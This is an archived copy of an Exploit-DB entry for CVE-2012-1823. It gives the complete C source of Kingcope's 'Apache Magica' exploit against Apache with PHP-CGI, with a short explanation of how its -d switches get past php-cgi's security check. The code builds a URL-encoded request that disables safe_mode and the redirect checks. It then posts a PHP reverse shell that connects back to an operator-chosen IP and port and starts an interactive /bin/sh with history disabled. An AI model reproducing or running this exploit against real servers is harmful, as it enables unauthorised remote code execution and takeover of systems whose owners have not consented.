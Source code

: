 * Apache / PHP 5.x Remote Code Execution Exploit
  :PROPERTIES:
  :CUSTOM_ID: apache-php-5.x-remote-code-execution-exploit
  :END:

*WARNING: This is old and likely obsolete.*

- published date: 2013-10-30 19:58
- keywords: ["apache", "internet", "php", "security", "swaac"]
- source: http://www.exploit-db.com/exploits/29290/

#+BEGIN_QUOTE
  * Apache / PHP 5.x Remote Code Execution Exploit
    :PROPERTIES:
    :CUSTOM_ID: apache-php-5.x-remote-code-execution-exploit-1
    :END:
#+END_QUOTE

--------------

#+BEGIN_QUOTE

  - EDB-ID: 29290
  - CVE: [[http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-1823][2012-1823]]
  - OSVDB-ID: N/A
  - Author: Kingcope
  - Published: 2013-10-29
  - Verified: [[http://www.exploit-db.com/images/cancel.png]]\\
  - Exploit Code: [[/download/29290][[[http://www.exploit-db.com/images/46.png]]]]
  - Vulnerable App: N/A
#+END_QUOTE

--------------

#+BEGIN_QUOTE
  ** Rating
     :PROPERTIES:
     :CUSTOM_ID: rating
     :END:

  Overall: (0.0)
#+END_QUOTE

**** This is a code execution bug in the combination of Apache and PHP.
     :PROPERTIES:
     :CUSTOM_ID: this-is-a-code-execution-bug-in-the-combination-of-apache-and-php.
     :END:

#+BEGIN_QUOTE
  #+BEGIN_SRC C
      /* Apache Magica by Kingcope */
      /* gcc apache-magika.c -o apache-magika -lssl */
      /* This is a code execution bug in the combination of Apache and PHP.
      On Debian and Ubuntu the vulnerability is present in the default install
      of the php5-cgi package. When the php5-cgi package is installed on Debian and
      Ubuntu or php-cgi is installed manually the php-cgi binary is accessible under
      /cgi-bin/php5 and /cgi-bin/php. The vulnerability makes it possible to execute
      the binary because this binary has a security check enabled when installed with
      Apache http server and this security check is circumvented by the exploit.
      When accessing the php-cgi binary the security check will block the request and
      will not execute the binary.
      In the source code file sapi/cgi/cgi_main.c of PHP we can see that the security
      check is done when the php.ini configuration setting cgi.force_redirect is set
      and the php.ini configuration setting cgi.redirect_status_env is set to no.
      This makes it possible to execute the binary bypassing the Security check by
      setting these two php.ini settings.
      Prior to this code for the Security check getopt is called and it is possible
      to set cgi.force_redirect to zero and cgi.redirect_status_env to zero using the
      -d switch. If both values are set to zero and the request is sent to the server
      php-cgi gets fully executed and we can use the payload in the POST data field
      to execute arbitrary php and therefore we can execute programs on the system.
      apache-magika.c is an exploit that does exactly the prior described. It does
      support SSL.
      /* Affected and tested versions
      PHP 5.3.10
      PHP 5.3.8-1
      PHP 5.3.6-13
      PHP 5.3.3
      PHP 5.2.17
      PHP 5.2.11
      PHP 5.2.6-3
      PHP 5.2.6+lenny16 with Suhosin-Patch
      Affected versions
      PHP prior to 5.3.12
      PHP prior to 5.4.2
      Unaffected versions
      PHP 4 - getopt parser unexploitable
      PHP 5.3.12 and up
      PHP 5.4.2 and up
      Unaffected versions are patched by CVE-2012-1823.
      */
      /*    .
           /'\rrq rk
       .  // \\  .
      .x.//fco\\-|-
       '//cmtco\\zt
       //6meqrg.\\tq
      //_________\\'
      EJPGQO
      apache-magica.c by Kingcope
      */

      #include <stdio.h>
      #include <stdlib.h>
      #include <unistd.h>
      #include <getopt.h>
      #include <sys/types.h>
      #include <stddef.h>
      #include <openssl/rand.h>
      #include <openssl/ssl.h>
      #include <openssl/err.h>
      #include <netdb.h>
      #include <sys/socket.h>
      #include <netinet/in.h>

      typedef struct {
          int sockfd;
          SSL *handle;
          SSL_CTX *ctx;
      } connection;

      void usage(char *argv[])
      {
        printf("usage: %s <--target target> <--port port> <--protocol http|https> "
        "<--reverse-ip ip> <--reverse-port port> [--force-interpreter interpreter]\n",
         argv[0]);
        exit(1);
      }

      char poststr[] = "POST %s?%%2D%%64+%%61%%6C%%6C%%6F%%77%%5F"
       "%%75%%72%%6C%%5F%%69%%6E%%63%%6C%%75%%64%%65%%3D%%6F%%6E+%%2D%%64"
       "+%%73%%61%%66%%65%%5F%%6D%%6F%%64%%65%%3D%%6F%%66%%66+%%2D%%64+%%73"
       "%%75%%68%%6F%%73%%69%%6E%%2E%%73%%69%%6D%%75%%6C%%61%%74%%69%%6F%%6E"
       "%%3D%%6F%%6E+%%2D%%64+%%64%%69%%73%%61%%62%%6C%%65%%5F%%66%%75%%6E%%63"
       "%%74%%69%%6F%%6E%%73%%3D%%22%%22+%%2D%%64+%%6F%%70%%65%%6E%%5F%%62"
       "%%61%%73%%65%%64%%69%%72%%3D%%6E%%6F%%6E%%65+%%2D%%64+%%61%%75%%74"
       "%%6F%%5F%%70%%72%%65%%70%%65%%6E%%64%%5F%%66%%69%%6C%%65%%3D%%70%%68"
       "%%70%%3A%%2F%%2F%%69%%6E%%70%%75%%74+%%2D%%64+%%63%%67%%69%%2E%%66%%6F"
       "%%72%%63%%65%%5F%%72%%65%%64%%69%%72%%65%%63%%74%%3D%%30+%%2D%%64+%%63"
       "%%67%%69%%2E%%72%%65%%64%%69%%72%%65%%63%%74%%5F%%73%%74%%61%%74%%75%%73"
       "%%5F%%65%%6E%%76%%3D%%30+%%2D%%6E HTTP/1.1\r\n"
       "Host: %s\r\n"
       "User-Agent: Mozilla/5.0 (iPad; CPU OS 6_0 like Mac OS X) AppleWebKit/536.26"
       "(KHTML, like Gecko) Version/6.0 Mobile/10A5355d Safari/8536.25\r\n"
       "Content-Type: application/x-www-form-urlencoded\r\n"
       "Content-Length: %d\r\n"
       "Connection: close\r\n\r\n%s";
      char phpstr[] = "<?php\n"
      "set_time_limit(0);\n"
      "$ip = '%s';\n"
      "$port = %d;\n"
      "$chunk_size = 1400;\n"
      "$write_a = null;\n"
      "$error_a = null;\n"
      "$shell = 'unset HISTFILE; unset HISTSIZE; uname -a; w; id; /bin/sh -i';\n"
      "$daemon = 0;\n"
      "$debug = 0;\n"
      "if (function_exists('pcntl_fork')) {\n"
      "  $pid = pcntl_fork();    \n"
      "  if ($pid == -1) {\n"
      "      printit(\"ERROR: Can't fork\");\n"
      "      exit(1);\n"
      "  }\n"
      "  if ($pid) {\n"
      "      exit(0);\n"
      "  }\n"
      "  if (posix_setsid() == -1) {\n"
      "      printit(\"Error: Can't setsid()\");\n"
      "      exit(1);\n"
      "  }\n"
      "  $daemon = 1;\n"
      "} else {\n"
      "  printit(\"WARNING: Failed to daemonise.\");\n"
      "}\n"
      "chdir(\"/\");\n"
      "umask(0);\n"
      "$sock = fsockopen($ip, $port, $errno, $errstr, 30);\n"
      "if (!$sock) {\n"
      "  printit(\"$errstr ($errno)\");\n"
      "  exit(1);\n"
      "}\n"
      "$descriptorspec = array(\n"
      "   0 => array(\"pipe\", \"r\"),\n"
      "   1 => array(\"pipe\", \"w\"),\n"
      "   2 => array(\"pipe\", \"w\")\n"
      ");\n"
      "$process = proc_open($shell, $descriptorspec, $pipes);\n"
      "if (!is_resource($process)) {\n"
      "  printit(\"ERROR: Can't spawn shell\");\n"
      "  exit(1);\n"
      "}\n"
      "stream_set_blocking($pipes[0], 0);\n"
      "stream_set_blocking($pipes[1], 0);\n"
      "stream_set_blocking($pipes[2], 0);\n"
      "stream_set_blocking($sock, 0);\n"
      "while (1) {\n"
      "  if (feof($sock)) {\n"
      "      printit(\"ERROR: Shell connection terminated\");\n"
      "      break;\n"
      "  }\n"
      "  if (feof($pipes[1])) {\n"
      "      printit(\"ERROR: Shell process terminated\");\n"
      "      break;\n"
      "  }\n"
      "  $read_a = array($sock, $pipes[1], $pipes[2]);\n"
      "  $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);\n"
      "  if (in_array($sock, $read_a)) {\n"
      "      if ($debug) printit(\"SOCK READ\");\n"
      "      $input = fread($sock, $chunk_size);\n"
      "      if ($debug) printit(\"SOCK: $input\");\n"
      "      fwrite($pipes[0], $input);\n"
      "  }\n"
      "  if (in_array($pipes[1], $read_a)) {\n"
      "      if ($debug) printit(\"STDOUT READ\");\n"
      "      $input = fread($pipes[1], $chunk_size);\n"
      "      if ($debug) printit(\"STDOUT: $input\");\n"
      "      fwrite($sock, $input);\n"
      "  }\n"
      "  if (in_array($pipes[2], $read_a)) {\n"
      "      if ($debug) printit(\"STDERR READ\");\n"
      "      $input = fread($pipes[2], $chunk_size);\n"
      "      if ($debug) printit(\"STDERR: $input\");\n"
      "      fwrite($sock, $input);\n"
      "  }\n"
      "}\n"
      "\n"
      "fclose($sock);\n"
      "fclose($pipes[0]);\n"
      "fclose($pipes[1]);\n"
      "fclose($pipes[2]);\n"
      "proc_close($process);\n"
      "function printit ($string) {\n"
      "  if (!$daemon) {\n"
      "      print \"$string\n\";\n"
      "  }\n"
      "}\n"
      "exit(1);\n"
      "?>";

      struct sockaddr_in *gethostbyname_(char *hostname, unsigned short port)
      {
       struct hostent *he;
       struct sockaddr_in server, *servercopy;

       if ((he=gethostbyname(hostname)) == NULL) {
        printf("Hostname cannot be resolved\n");
        exit(255);
       }

       servercopy = malloc(sizeof(struct sockaddr_in));
       if (!servercopy) {
          printf("malloc error (1)\n");
          exit(255);
       }
       memset(&server, '\0', sizeof(struct sockaddr_in));
       memcpy(&server.sin_addr, he->h_addr_list[0],  he->h_length);
       server.sin_family = AF_INET;
       server.sin_port = htons(port);
       memcpy(servercopy, &server, sizeof(struct sockaddr_in));
       return servercopy;
      }

      char *sslread(connection *c)
      {
        char *rc = NULL;
        int received, count = 0, count2=0;
        char ch;

        for(;;)
        {
         if (!rc)
          rc = calloc(1024, sizeof (char) + 1);
         else
          if (count2 % 1024 == 0) {
           rc = realloc(rc, (count2 + 1) * 1024 * sizeof (char) + 1);
          }
          received = SSL_read(c->handle, &ch, 1);
          if (received == 1) {
           rc[count++] = ch;
           count2++;
           if (count2 > 1024*5)
            break;
          }
          else
           break;
         }
        return rc;
      }

      char *read_(int sockfd)
      {
        char *rc = NULL;
        int received, count = 0, count2=0;
        char ch;

        for(;;)
        {
         if (!rc)
          rc = calloc(1024, sizeof (char) + 1);
         else
          if (count2 % 1024 == 0) {
           rc = realloc(rc, (count2 + 1) * 1024 * sizeof (char) + 1);
          }
          received = read(sockfd, &ch, 1);
          if (received == 1) {
           rc[count++] = ch;
           count2++;
           if (count2 > 1024*5)
            break;
          }
          else
           break;
         }
        return rc;
      }

      void main(int argc, char *argv[])
      {
        char *target, *protocol, *targetip, *writestr, *tmpstr, *readbuf=NULL,
         *interpreter, *reverseip, *reverseportstr, *forceinterpreter=NULL;
        char httpsflag=0;
        unsigned short port=0, reverseport=0;
        struct sockaddr_in *server;
        int sockfd;
        unsigned int writesize, tmpsize;
        unsigned int i;
        connection *sslconnection;
        printf("-== Apache Magika by Kingcope ==-\n");
        for(;;)
        {
           int c;
           int option_index=0;
           static struct option long_options[] = {
             {"target", required_argument, 0, 0 },
             {"port", required_argument, 0, 0 },
             {"protocol", required_argument, 0, 0 },
             {"reverse-ip", required_argument, 0, 0 },
             {"reverse-port", required_argument, 0, 0 },
             {"force-interpreter", required_argument, 0, 0 },
             {0, 0, 0, 0 }
            };

           c = getopt_long(argc, argv, "", long_options, &option_index);
           if (c < 0)
              break;

           switch (c) {
           case 0:
            switch (option_index) {
             case 0:
              if (optarg) {
               target = calloc(strlen(optarg)+1, sizeof(char));
               if (!target) {
                printf("calloc error (2)\n");
                exit(255);
               }
               memcpy(target, optarg, strlen(optarg)+1);
              }
              break;
             case 1:
              if(optarg)
               port = atoi(optarg);
              break;
             case 2:
              protocol = calloc(strlen(optarg)+1, sizeof(char));
              if (!protocol) {
               printf("calloc error (3)\n");
               exit(255);
              }
              memcpy(protocol, optarg, strlen(optarg)+1);
              if (!strcmp(protocol, "https"))
               httpsflag=1;
              break;
             case 3:
              reverseip = calloc(strlen(optarg)+1, sizeof(char));
              if (!reverseip) {
               printf("calloc error (4)\n");
               exit(255);
              }
              memcpy(reverseip, optarg, strlen(optarg)+1);
              break;
             case 4:
              reverseport = atoi(optarg);
              reverseportstr = calloc(strlen(optarg)+1, sizeof(char));
              if (!reverseportstr) {
               printf("calloc error (5)\n");
               exit(255);
              }
              memcpy(reverseportstr, optarg, strlen(optarg)+1);
              break;
             case 5:
              forceinterpreter = calloc(strlen(optarg)+1, sizeof(char));
              if (!forceinterpreter) {
               printf("calloc error (6)\n");
               exit(255);
              }
              memcpy(forceinterpreter, optarg, strlen(optarg)+1);
              break;
             default:
              usage(argv);
            }
            break;

           default:
            usage(argv);
           }
        }

        if ((optind < argc) || !target || !protocol || !port ||
            !reverseip || !reverseport){
          usage(argv);
        }

        server = gethostbyname_(target, port);
        if (!server) {
         printf("Error while resolving hostname. (7)\n");
         exit(255);
        }

        char *interpreters[5];
        int ninterpreters = 5;
        interpreters[0] = strdup("/cgi-bin/php");
        interpreters[1] = strdup("/cgi-bin/php5");
        interpreters[2] = strdup("/cgi-bin/php-cgi");
        interpreters[3] = strdup("/cgi-bin/php.cgi");
        interpreters[4] = strdup("/cgi-bin/php4");

        for (i=0;i<ninterpreters;i++) {
         interpreter = interpreters[i];
         if (forceinterpreter) {
           interpreter = strdup(forceinterpreter);
         }
         if (forceinterpreter && i)
          break;
         printf("%s\n", interpreter);

         sockfd = socket(AF_INET, SOCK_STREAM, 0);
         if (sockfd < 1) {
           printf("socket error (8)\n");
           exit(255);
         }

         if (connect(sockfd, (void*)server, sizeof(struct sockaddr_in)) < 0) {
          printf("connect error (9)\n");
          exit(255);
         }
         if (httpsflag) {
          sslconnection = (connection*) malloc(sizeof(connection));
          if (!sslconnection) {
           printf("malloc error (10)\n");
           exit(255);
          }
          sslconnection->handle = NULL;
          sslconnection->ctx = NULL;

          SSL_library_init();

          sslconnection->ctx = SSL_CTX_new(SSLv23_client_method());
          if (!sslconnection->ctx) {
           printf("SSL_CTX_new error (11)\n");
           exit(255);
          }

          sslconnection->handle = SSL_new(sslconnection->ctx);
          if (!sslconnection->handle) {
           printf("SSL_new error (12)\n");
           exit(255);
          }
          if (!SSL_set_fd(sslconnection->handle, sockfd)) {
           printf("SSL_set_fd error (13)\n");
           exit(255);
          }

          if (SSL_connect(sslconnection->handle) != 1) {
           printf("SSL_connect error (14)\n");
           exit(255);
          }
         }

         tmpsize = strlen(phpstr) + strlen(reverseip) + strlen(reverseportstr) + 64;
         tmpstr = (char*)calloc(tmpsize, sizeof(char));
         snprintf(tmpstr, tmpsize, phpstr, reverseip, reverseport);

         writesize = strlen(target) + strlen(interpreter) +
           strlen(poststr) + strlen(tmpstr) + 64;
         writestr = (char*)calloc(writesize, sizeof(char));
         snprintf(writestr, writesize, poststr, interpreter,
           target, strlen(tmpstr), tmpstr);

         if (!httpsflag) {
           write(sockfd, writestr, strlen(writestr));
           readbuf = read_(sockfd);
         } else {
           SSL_write(sslconnection->handle, writestr, strlen(writestr));
           readbuf = sslread(sslconnection);
         }

         if (readbuf) {
           printf("***SERVER RESPONSE***\n\n%s\n\n", readbuf);
         } else {
          printf("read error (15)\n");
          exit(255);
         }
        }
        exit(1);
      }
  #+END_SRC
#+END_QUOTE
